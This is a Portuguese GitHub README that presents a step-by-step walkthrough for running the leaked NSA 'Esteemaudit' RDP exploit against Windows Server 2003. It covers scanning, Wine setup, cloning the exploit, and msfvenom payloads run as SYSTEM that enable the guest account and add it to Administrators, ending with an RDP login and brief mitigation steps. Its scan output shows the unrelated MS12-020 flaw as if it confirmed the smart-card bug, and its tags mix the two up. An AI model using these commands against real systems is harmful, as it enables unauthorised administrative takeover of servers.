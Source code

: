 # Esteemaudit without Metasploit - A Windows 2003 RDP Zero Day Exploit

Explorando Remote Desktop do Windows Server 2003 com o exploit Esteemaudit (sem Metasploit) e obtendo RCE (Remote Code Execution).

**REPOSITÓRIO CRIADO PARA FINS DIDÁTICOS!**

Esta é uma portabilidade do Esteemaudit RDP Exploit vazado do Equationgroup (NSA). A vulnerabilidade explorada por este ataque está relacionada à autenticação de Smart Card, usada ao fazer logon no sistema por meio do serviço RDP. Os sistemas afetados são Windows Server 2003 SP1, SP2 e Windows XP SP0, SP1, SP3.

O logon do Smart Card é suportado por todas as versões do Windows após o Windows 2000. Ele contém um chip que armazena as informações de logon do usuário, juntamente com a chave privada e a chave de certificado pública. Ao inseri-lo em um leitor de cartão inteligente conectado ao computador e digitar um número de identificação pessoal (PIN), o usuário pode fazer login com segurança no sistema Windows. Quando o logon ocorre por meio do serviço RDP, a máquina remota que executa o serviço RDP se comunica com o computador local, que se conecta ao leitor de cartão inteligente, solicita as informações no cartão inteligente e verifica o PIN.

Esta vulnerabilidade está localizada na função "MyCPAcquireContext()" em "gpkcsp.dll", que é chamada por "winlogon.exe" na nova sessão do Windows. A função "MyCPAcquireContext()" é usada para configurar o contexto do Windows Cryptographic Service Providers (CSP). Ele lê os dados do Smart Card e define o valor dos campos da estrutura de contexto CSP. Se os dados lidos do cartão inteligente forem muito grandes, o buffer de campo usado pela estrutura de contexto CSP estoura e sobrescreve outro campo, permitindo a execução de código arbitrário.

**Para realizar o teste foi utilizado o Kali Linux 2022.3 como máquina atacante e Windows Server 2003 (x86) como máquina alvo.**

Identifique as possíveis vulnerabilidades no Remote Desktop do Windows Server:
```
nmap -v --script vuln -p3389 -Pn 172.16.1.110
```
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
```

**Sabendo que é vulnerável, vamos preparar o Kali para realizar a exploração.**

No Kali, instale as dependências:
```
dpkg --add-architecture i386
apt-get update && apt-get install wine32
```

Realize a instalação dos pacotes libwine, wine, wine32 e winetricks
```
apt-get install libwine wine wine32 winetricks
```

Após a instalação certifique-se que o **Wine** esteja instalado, em seguida execute o comando **exit** para sair do **Wine**.
```
wine cmd
Microsoft Windows 6.1.7601 (4.0.2)

Z:\>exit
```

Baixe o exploit e copie os arquivos:
```
git clone https://github.com/caique-garbim/Esteemaudit-without-Metasploit
cd Esteemaudit-without-Metasploit/
cp -r esteemaudit/ /usr/share/
cd /usr/share/esteemaudit
```

No arquivo **Esteemaudit-2.1.0.xml**, na linha nº 5 é necessário informar o IP do Windows Server e a porta TCP do serviço RDP (3389 é o padrão):

![image](https://user-images.githubusercontent.com/76706456/186801171-388f3d39-a25c-412b-b868-d70aa20815ba.png)

**Vamos gerar os payloads com os comandos que desejamos executar no Windows Server:**

Neste exemplo, iremos habilitar o usuário convidado, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net user guest /active:yes" -f dll > /root/.wine/drive_c/shell.dll
```
*(Sabendo que o comando será executado como NT AUTHORITY\SYSTEM podemos realizar tarefas administrativas)*

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Em seguida vamos adiciona-lo ao grupo de Administradores, gerando o seguinte payload:
```
msfvenom -a x86 --platform Windows -p windows/exec CMD='net localgroup "Administrators" guest /add' -f dll > /root/.wine/drive_c/shell.dll
```

Em seguida iremos envia-lo para o servidor:
```
wine Esteemaudit-2.1.0.exe
```

![image](https://user-images.githubusercontent.com/76706456/186801388-f88fcc11-938e-4cba-be60-2b56e2a821ff.png)

![image](https://user-images.githubusercontent.com/76706456/186801418-a2aea451-eb16-4fe8-a883-5a579e0ea2a7.png)

*(No final da execução retornou um erro, porém o comando foi executado com sucesso)*

Por fim, vamos nos conectar ao RDP utilizando o usuário guest:
```
rdesktop 172.16.1.110 -u guest -p ''
```

![image](https://user-images.githubusercontent.com/76706456/186801609-9c57de87-1d2c-42b5-9a74-c7e44c0d178f.png)

# Como mitigar

1 - Execute gpedit.msc

2 - Vá em Computer Configuration\Administrative Templates\Windows Components\Terminal Services\Client/Server data redirection\

3 - Habilite "Do not allow Smart Card device redirection"

4 - Reinicie o servidor

# Referências

https://github.com/BlackMathIT/Esteemaudit-Metasploit

https://www.fortinet.com/blog/threat-research/deep-analysis-of-esteemaudit

#
Tags: CVE-2012-0002, MS12-020, Remote Desktop, Remote Code Execution, Vulnerability, RCE, RDP, Exploit, Exploit RDP, Windows, Server, 2003, Exploit RDP Windows Server 2003, Esteemaudit, Esteemaudit sem metasploit, without metasploit, Exploração do Windows Server 2003 com Esteemaudit sem metasploit
